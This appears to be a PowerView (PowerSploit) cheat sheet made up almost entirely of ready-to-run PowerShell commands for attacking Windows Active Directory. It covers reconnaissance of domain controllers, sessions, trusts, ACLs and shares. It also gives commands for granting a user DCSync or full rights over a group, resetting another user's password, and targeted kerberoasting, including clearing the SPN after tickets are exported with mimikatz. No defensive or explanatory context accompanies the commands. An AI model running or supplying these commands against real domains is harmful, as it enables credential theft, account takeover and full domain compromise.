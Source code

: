 ### source 
https://raw.githubusercontent.com/AdrianVollmer/PowerSploit/master/Recon/PowerView.ps1  

### get domain controller for current domain
```
Get-NetDomainController
```

### get remote logged in user
```
Get-NetSession -ComputerName <fqdnRhost>
```

### get object descriptions
```
Get-NetUser | select-object samaccountname,description | fl | Out-File <file>.txt
```

### get specific user description
```
Get-NetUser -Username <user> 
```

### get list of all domain trusts
```
Get-NetDomainTrust
```

### get details about the current forest
```
Get-NetForest
```

### find all machines where user has local admin rights
```
Find-LocalAdminAccess –Verbose -Domain <domain> -Computername <rhost>
```

### show all security identifiers (SID) that can create new GPOs
```
Get-DomainObjectAcl -SearchBase "CN=Policies,CN=System,DC=<domainComponent>,DC=<domainComponent>" -ResolveGUIDs | ? { $_.ObjectAceType -eq "Group-Policy-Container" } | select ObjectDN, ActiveDirectoryRights, SecurityIdentifier | fl
```

### get name of SID
```
ConvertFrom-SID <securityIdentifier>
```

### show all principals that can write to GP-Link attributes
```
Get-DomainOU | Get-DomainObjectAcl -ResolveGUIDs | ? { $_.ObjectAceType -eq "GP-Link" -and $_.ActiveDirectoryRights -match "WriteProperty" } | select ObjectDN, SecurityIdentifier | fl
```

### get computeraccounts in specific OU
```
Get-DomainComputer | ? { $_.DistinguishedName -match "<distinguishedName>" -or $_.DistinguishedName -match "OU=<ou>" } | select DnsHostName
```

### add full permissions over a group to specific user (right = All or ResetPassword or WriteMembers)
```
Add-ObjectAcl -TargetADSprefix '<distinguishedName>' -PrincipalSamAccountName <user> -Rights <right> -Verbose
```

### add DCSync right to a specific user
```
Add-ObjectAcl -TargetDistinguishedName 'distinguishedName' -PrincipalSamAccountName <user> -Rights DCSync -Verbose
```

### set a new password for specific user
```
Set-DomainUserPassword -Identity <user> -AccountPassword (ConvertTo-SecureString "<password>" -AsPlainText -Force) -Verbose
```

### check if user has SPN set (targeted kerberoast)
```
Get-DomainUser -Identity <user> | select serviceprincipalname
Get-DomainComputer -Identity <user> | select serviceprincipalname
```

### set a new SPN
```
Set-DomainObject -Identity <userOrComputer> -Set @{serviceprincipalname='foo/bar'}
```

### request ticket from SPN
```
Request-SPNTicket -SPN 'foo/bar'
```

### after export of tickets using mimikatz remove SPN
```
Set-DomainObject -Credential $Cred -Identity <userOrComputer> -Clear serviceprincipalname
```

### list accesible shares (without -ComputerName check all domain joined hosts)
```
Find-DomainShare -CheckShareAccess -ComputerName <rhost>
```


